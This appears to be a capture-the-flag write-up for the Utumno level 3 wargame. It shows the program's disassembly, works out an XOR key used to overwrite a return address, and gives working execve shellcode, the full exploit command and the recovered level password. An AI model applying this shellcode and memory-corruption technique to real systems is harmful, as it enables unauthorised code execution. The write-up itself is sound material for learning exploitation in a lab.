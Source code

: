 ebp = 0xffffd6d8
return address of main is stored in ebp + 4 (by stackoverflow)

disas main:
```assembly
   0x080483eb <+0>:	push   ebp
   0x080483ec <+1>:	mov    ebp,esp
   0x080483ee <+3>:	push   ebx
   0x080483ef <+4>:	sub    esp,0x38
   0x080483f2 <+7>:	mov    DWORD PTR [ebp-0xc],0x0
   0x080483f9 <+14>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080483fc <+17>:	mov    DWORD PTR [ebp-0x8],eax
   0x080483ff <+20>:	jmp    0x804844d <main+98>
   0x08048401 <+22>:	mov    eax,DWORD PTR [ebp-0xc]
   0x08048404 <+25>:	mov    ecx,eax
   0x08048406 <+27>:	lea    edx,[ebp-0x3c]
   0x08048409 <+30>:	mov    eax,DWORD PTR [ebp-0x8]
   0x0804840c <+33>:	add    eax,edx
   0x0804840e <+35>:	mov    BYTE PTR [eax],cl
   0x08048410 <+37>:	lea    edx,[ebp-0x3c]
   0x08048413 <+40>:	mov    eax,DWORD PTR [ebp-0x8]
   0x08048416 <+43>:	add    eax,edx
   0x08048418 <+45>:	movzx  ecx,BYTE PTR [eax]
   0x0804841b <+48>:	mov    eax,DWORD PTR [ebp-0x8]
   0x0804841e <+51>:	mov    edx,eax
   0x08048420 <+53>:	mov    eax,edx
   0x08048422 <+55>:	add    eax,eax
   0x08048424 <+57>:	add    eax,edx
   0x08048426 <+59>:	xor    ecx,eax
   0x08048428 <+61>:	lea    edx,[ebp-0x3c]
   0x0804842b <+64>:	mov    eax,DWORD PTR [ebp-0x8]
   0x0804842e <+67>:	add    eax,edx
   0x08048430 <+69>:	mov    BYTE PTR [eax],cl
   0x08048432 <+71>:	lea    edx,[ebp-0x3c]
   0x08048435 <+74>:	mov    eax,DWORD PTR [ebp-0x8]
   0x08048438 <+77>:	add    eax,edx
   0x0804843a <+79>:	movzx  eax,BYTE PTR [eax]
   0x0804843d <+82>:	movsx  ebx,al
   0x08048440 <+85>:	call   0x80482c0 <getchar@plt>
   0x08048445 <+90>:	mov    BYTE PTR [ebp+ebx*1-0x24],al	# we write the second char at some location ebp-0x24+ebx
   0x08048449 <+94>:	add    DWORD PTR [ebp-0x8],0x1		#ebx is hard to calculate, we also have xor in the code
   0x0804844d <+98>:	call   0x80482c0 <getchar@plt>
   0x08048452 <+103>:	mov    DWORD PTR [ebp-0xc],eax
   0x08048455 <+106>:	cmp    DWORD PTR [ebp-0xc],0xffffffff
   0x08048459 <+110>:	je     0x8048461 <main+118>
   0x0804845b <+112>:	cmp    DWORD PTR [ebp-0x8],0x17		#some cmp, jump lower equal to exit from main loop
   0x0804845f <+116>:	jle    0x8048401 <main+22>
   0x08048461 <+118>:	mov    eax,0x0
   0x08048466 <+123>:	add    esp,0x38
   0x08048469 <+126>:	pop    ebx
   0x0804846a <+127>:	pop    ebp
   0x0804846b <+128>:	ret
```
note the line:
0x08048426 <+59>:	xor    %eax,%ecx
we see that each round, something gets xor'ed --> as encryption
eax has our byte from getchar(), and ecx changes somehow each round
so each round we'll try some plain char, get the cipher, and calculate what char we need
note that xor is the inverse of itself --> p xor k = c, p xor c = k

so we try:
at first byte "\x28\x41" -->  becomes "\x28\x41"                                   xor key is 0
at second byte "\x2a\x41" --> becomes "\x29\x41"    (0x29 --> 0x2a, 0x2a --> 0x29) xor key is 3
at third byte "\x2c\x41" --> becomes "\x2a\x41"     (0x2d --> 0x2b)                xor key is 6
at fourth byte "\x22\x41" --> becomes "\x22\x41"    (0x2f --> 0x26, 0x2e --> 0x27) xor key is 9

we get: run <<< $(python -c 'print "\x28\x41\x2a\x41\x2c\x41\x22\x41"')

as usual, we try to shellcode by env variables

we insert 
we find the address: 0xffffd87a

at last:
./utumno3 $(python -c 'print "\x90"*50+"\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x2f\x61\x78\x63\x68\x2f\x74\x6d\x70\x89\xe1\x52\x89\xe2\x51\x53\x89\xe1\xcd\x80"') <<< $(python -c 'print "\x28\x85\x2a\xd8\x2c\xff\x22\xff"')

shellcode:	\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

doesnt work

shellcode of cat /etc/utumno_pass/utumno4:	\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x2f\x61\x78\x63\x68\x2f\x74\x6d\x70\x89\xe1\x52\x89\xe2\x51\x53\x89\xe1\xcd\x80

works

we get:

oogieleoga



